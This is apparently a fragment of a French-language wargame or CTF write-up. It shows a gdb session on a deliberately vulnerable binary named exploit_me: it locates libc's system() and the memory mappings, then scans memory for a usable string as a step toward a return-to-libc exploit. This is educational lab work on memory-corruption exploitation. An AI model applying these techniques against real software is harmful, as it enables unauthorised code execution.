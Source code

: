 ```nasm

Breakpoint 1, 0x080483f4 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) info proc mappings
process 4813
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) x/25s  0x8049000
0x8049000:       "\177ELF\001\001\001"
0x8049008:       ""
0x8049009:       ""
0x804900a:       ""
0x804900b:       ""
0x804900c:       ""
0x804900d:       ""
0x804900e:       ""
0x804900f:       ""
0x8049010:       "\002"
0x8049012:       "\003"
0x8049014:       "\001"
0x8049016:       ""
0x8049017:       ""
0x8049018:       "@\203\004\b4"
0x804901e:       ""
0x804901f:       ""
0x8049020:       "4\b"
0x8049023:       ""
0x8049024:       ""
0x8049025:       ""
0x8049026:       ""
0x8049027:       ""
0x8049028:       "4"
0x804902a:       " "
```

Il y a le caractère `4` tout seul à la fin, il fera bien l'affaire :)
